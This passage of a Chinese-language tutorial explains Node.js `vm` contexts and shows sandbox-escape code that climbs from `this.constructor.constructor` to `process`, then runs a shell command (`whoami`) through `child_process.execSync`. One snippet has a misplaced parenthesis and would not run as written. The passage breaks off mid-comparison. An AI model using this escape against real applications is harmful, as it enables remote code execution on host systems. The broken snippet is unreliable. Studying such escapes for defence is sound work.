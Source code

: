在Node.js中还存在`process`（进程）对象，其提供有关当前 Node.js 进程的信息并对其进行控制。其属性`process.mainModule` 提供了另一种检索 `require.main`的方法。不同之处在于，如果主模块在运行时发生更改，则`require.main`可能仍会引用更改发生前所需模块中的原始主模块。如果没有入口脚本，则 `process.mainModule` 将是 `undefined`。

需要注意的是，`process.mainModule` 新增于: v0.1.17，弃用于: v14.0.0，意味着这个方法已经不被官方推荐（但不代表不能使用）。

此外，在 REPL（交互式 shell）里 `require`/某些标识符是对 “全局/REPL realm” 可见的，而在模块文件（`node file.js`）里顶层 `require` 实际是由模块包装函数注入到**模块局部作用域**，不是全局变量。简单来说，上述实验只能在REPL中复现，而在实际环境中，必须借助`process.mainModule`引入需要的模块，如下：

```js
const vm = require("vm");
const y = `this.toString.constructor("return process")()`;
console.log(vm.runInNewContext(y)).mainModule.require("child_process").execSync("whoami").toString());
```

回过头来再研究这个函数：`vm.runInContext(script, context)`，不难发现前文所举的例子都是忽略context，只提供script。实际上，在忽略context的情况下，Node.js会自己创建一个空的上下文环境`{}`，显而易见地，script中的`this`直接代指这个空的上下文环境。

在下文这个例子中：

```js
const vm = require('vm');
const script = `m + n + this.m`;
const sandbox = { m: 1, n: 2 };
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res)
```

`vm.createContext()` 会对传入的 `sandbox` 进行特殊处理：让 `sandbox` 成为一个全局作用域容器，脚本执行时的 `this` 会指向这个对象；返回处理后的 `context` 对象——即被包装后的 `sandbox`，二者引用相同，修改 `context` 会同步影响 `sandbox`。

上述代码的执行结果是

```js
4
```

显而易见地，`this.m`指向`sandbox`，这意味着我们虽然可以通过直接调用`this`来获取`Function`构造函数，但不可以使用`this.m`来获取，如下的代码可以正常运行并得到结果：

```js
const vm = require('vm');
const script = `(() => {
    const esc = this.constructor.constructor("return process")();
    return esc.mainModule.require('child_process').execSync('whoami').toString();
    })()`;
const sandbox = { m: 1, n: 2 };
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res)
```

然而，如果将代码改为：

```js
const script = `(() => {
    const esc = this.m.constructor.constructor("return process")();
    return esc.mainModule.require('child_process').execSync('whoami').toString();
    })()`;
```
